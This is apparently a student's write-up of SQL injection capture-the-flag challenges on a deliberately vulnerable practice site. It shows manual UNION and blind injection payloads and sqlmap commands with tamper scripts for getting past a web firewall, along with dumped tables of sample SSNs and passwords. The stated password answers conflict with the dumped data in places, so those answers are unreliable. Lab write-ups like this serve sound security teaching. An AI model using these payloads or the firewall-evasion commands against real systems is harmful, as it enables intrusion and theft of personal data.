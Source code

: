 # ED 103.2.1: SSN (15 pts)
**The flag is Linus' SSN.**

### Determine how many columns are being returned in the original sql payload
Not part of the curiculum but it's an extra tool in my belt I'll eventually need
>Sam' ORDER BY 1#

Returns nothing
>Sam' ORDER BY 2#

Gives an error.
Thus, there is 1 column being returned in the original payload.

>Sam' UNION SELECT ssn from employees#
Returns all SSNs in the employee table. I

##ED 103.2.2: Password (20 pts extra)
###The flag is Steve Jobs' password.
>Sam' union select pw from passwords where id=2#
alpine

# ED 103.2.2: Password (20 pts extra)
The flag is Steve Jobs' password.

Haven't gotten this one yet...

### sqlmap -u "https://games.samsclass.info/sqli/chal2a.php?u=Steve%20Jobs" --tamper=between,randomcase,space2comment --random-agent -v 3 -p u --columns -T passwords

```Table: passwords
[3 columns]
+---------+----------------------+
| Column  | Type                 |
+---------+----------------------+
| id      | smallint(5) unsigned |
| isadmin | smallint(5) unsigned |
| pw      | varchar(20)          |
+---------+----------------------+
```



### sqlmap -u "https://games.samsclass.info/sqli/chal2a.php?u=Steve%20Jobs" --tamper=between,randomcase,space2comment --random-agent -v 3 -p u --dump -T passwords
```+----+----------+---------+
| id | pw       | isadmin |
+----+----------+---------+
| 1  | Dropping | 1       |
| 2  | Fl33t    | 0       |
| 3  | d0ggi3   | 0       |
| 4  | h4gg15   | 0       |
| 5  | w1n73r   | 999     |
+----+----------+---------+
```

### sqlmap -u "https://games.samsclass.info/sqli/chal2a.php?u=Steve%20Jobs" --tamper=between,randomcase,space2comment --random-agent -v 3 -p u --dump -T employees
```Table: employees
[5 entries]
+----+-------------+----------------+
| id | ssn         | name           |
+----+-------------+----------------+
| 1  | 111-22-3456 | Bill Gates     |
| 2  | 333-22-4888 | Steve Jobs     |
| 3  | 444-22-1569 | Linus Torvalds |
| 4  | 444-33-1569 | WOZ            |
| 5  | sss-22-1569 | Grouper        |
+----+-------------+----------------+
```

**Steve Job (id=2)'s password = Dropping. He wanted us to do it by manual UNION exploitation, so I'll have to manually do that.

Admin's ID:

1

[ ] - x' UNION SELECT name FROM employees WHERE name='admin' AND substr(id, 1, 1)='1'#
[!] - User x' UNION SELECT name FROM employees WHERE name='admin' AND length(id)='1'# found!



# ED 103.2.4: Sqlmap on a Protected Target (10 pts extra)
`Find the current username, covered by a green box in the image below. That's the flag.`

### Notes
- --current-user

sqlmap -u "https://games.samsclass.info/sqli/chal2a.php?u=Steve%20Jobs" -p u --current-user

### Answer
- current user: 'bill2a@localhost'




# ED 103.2.5: Sqlmap: Retrieving Data (20 pts extra)
```Use Sqlmap on this target:
https://games.samsclass.info/sqli/chal2a.php?u=Steve%20Jobs

Recover the data from the tables. The flag is Steve Jobs' SSN.
```

General notes:
- -T tablename (specify tablename)
- --dump (dump all contents of the table; this is necessary for the command to work)

Key notes to get around WAF:
- --tamper=between,randomcase,space2comment (you need each .py script located in the dir you're working in!!!)
- --random-agent

### sqlmap -u "https://games.samsclass.info/sqli/chal2a.php?u=Steve%20Jobs" --tamper=between,randomcase,space2comment --random-agent -v 3 -p u --tables

```Database: widgets2a
Table: employees
[5 entries]
+----+-------------+----------------+
| id | ssn         | name           |
+----+-------------+----------------+
| 1  | 111-22-3456 | Bill Gates     |
| 2  | 333-22-4888 | Steve Jobs     |
| 3  | 444-22-1569 | Linus Torvalds |
| 4  | 444-33-1569 | WOZ            |
| 5  | sss-22-1569 | Grouper        |
+----+-------------+----------------+
```
